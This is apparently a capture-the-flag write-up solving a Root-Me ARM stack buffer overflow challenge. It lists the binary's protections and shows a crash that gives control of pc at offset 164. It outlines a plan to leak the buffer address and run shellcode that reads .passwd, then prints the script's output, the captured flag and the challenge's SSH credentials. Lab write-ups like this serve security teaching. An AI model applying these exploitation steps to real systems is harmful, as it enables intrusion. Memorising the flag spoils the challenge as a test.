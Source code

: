 # ELF ARM - Stack buffer overflow - basic
https://www.root-me.org/en/Challenges/App-System/ELF-ARM-Stack-buffer-overflow-basic
```
Conquer the binary to read the .passwd file.

PIE	    Position Independent Executable	          No        
RelRO	    Read Only relocations	                  Yes
NX	    Non-Executable Stack	                  No
ASLR	    Address Space Layout Randomization	          Yes
SF	    Source Fortification	                  No
SSP	    Stack-Smashing Protection	                  No
SRC	    Source code access	                          No

Challenge connection informations :

Host	            challenge04.root-me.org
Protocol	    TCP
Port	            61045
SSH access	    ssh -p 2224 app-systeme-ch45@challenge04.root-me.org
Username	    app-systeme-ch45
Password	    app-systeme-ch45
```

First, in order to plan how to solve this challenge, let's check the files and their permissions:
```bash
app-systeme-ch45@challenge04:~$ ll
total 44
drwxr-x---  2 app-systeme-ch45-cracked app-systeme-ch45 4096 Apr  7  2018 .
drwxr-xr-x 13 root                     root             4096 Mar 17  2018 ..
-r-xr-x---  1 app-systeme-ch45-cracked app-systeme-ch45 8296 May 19  2017 ch45
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45  577 May 19  2017 ch45.c
-r--------  1 root                     root               46 Apr  7  2018 ._firewall
-r--------  1 root                     root              795 May 19  2017 Makefile
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  306 May 19  2017 .motd
-r--------  1 app-systeme-ch45-cracked app-systeme-ch45   33 May 19  2017 .passwd
-rw-r-----  1 app-systeme-ch45-cracked app-systeme-ch45  516 May 19  2017 xinetd-app-systeme-ch45.conf
```

Next, let's check the ```xinetd-app-systeme-ch45.conf``` file:
```bash
service app-systeme-ch45
{
       flags                   = IPv6
       instances               = 50
       disable                 = no
       port                    = 61045
       socket_type             = stream
       protocol                = tcp
       wait                    = no
       user                    = app-systeme-ch45-cracked
       server                  = /usr/bin/timeout
       server_args             = -k1m 1m /challenge/app-systeme/ch45/ch45
       type                    = UNLISTED
}
```

So the plan is to overflow the stack using the remote service (in port 61045), in order to run a shell under _app-systeme-ch45-cracked_ permissions, which will display the file's content.<br>

If we'll execute the binary, it will display the following output:
```bash
app-systeme-ch45@challenge04:~$ ./ch45
Give me data to dump:
1234567890
0xbedd5ae8:  31 32 33 34 35 36 37 38 39 30
Dump again (y/n):
y                
Give me data to dump:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0xbedd5ae8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5af8:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b08:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b18:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b28:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b38:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b48:  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
0xbedd5b58:  61 61 61 61 61
Dump again (y/n):
n
```

Ok. So, probably we'll be able to override a _lr_ value (or something like that) in the stack.<br>
Luckily, most of the function prologs pushing the _lr_ value, in order to call other functions.<br>
So, because there are calls to _scanf_ and _printf_ in the main function, the function's prolog should push the _lr_ value, and the function's epilogue should pop it, and put it in _pc_.<br>
In fact, the **main** function does it:
```asm
103d8:	e3012008 	movw	r2, #4104	; 0x1008
103dc:	e3402002 	movt	r2, #2
103e0:	e92d4ff0 	push	{r4, r5, r6, r7, r8, r9, sl, fp, lr}
[...snip...]
104fc:	e8bd8ff0 	pop	{r4, r5, r6, r7, r8, r9, sl, fp, pc}
```

Nice. So we've got a plan - override the _lr_ value pushed at the beginning of the function with an address to our shellcode, and then stop the execution (by not wanting to dump again). Then, our address will be popped to _pc_.<br><br>

After few tries, the following string gave this information:
```gdb
Give me data to dump:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
0xbefffab8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffac8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffad8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffae8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffaf8:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb08:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb18:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb28:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb38:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb48:  41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41
0xbefffb58:  41 41 41 41 44 44 44 44
Dump again (y/n):
n

Program received signal SIGSEGV, Segmentation fault.
0x44444444 in ?? ()
```
Awesome! so we can control the _pc_ value at the end of the **main** function (it seems to be at offset of 164 bytes).<br>
Now, we'll need a place to store how shellcode.<br>
In each run, the program will show the address of the input buffer. Because the _NX_ is not set, and the address remains the same as long as the process still runs, it looks like a nice and warm place to put our shellcode.<br><br>
So, basically we'll have to follow the following steps:
<ol>
  <li>Leak the address by inserting a simple input (e.g "A").</li>
  <li>Build a shellcode which will <i>cat</i> the file's content, and override the <i>lr</i> value with the buffer's address.</li>
  <li>Watch the magic happens.</li>
</ol>
<br>

So, I wrote a python3 script which will do it. It's output is:
```sh
[!] Shellcode's length: 80.
[+] Starting communicating with the service.
[+] Found stack offset - 0xbee0fc58.
[+] Preparing the shellcode
[+] The shellcode sent to the remote service.
[+] Flag: 0v3rfl0wing_buff3rs_l1k3_4_b0ss!.
```
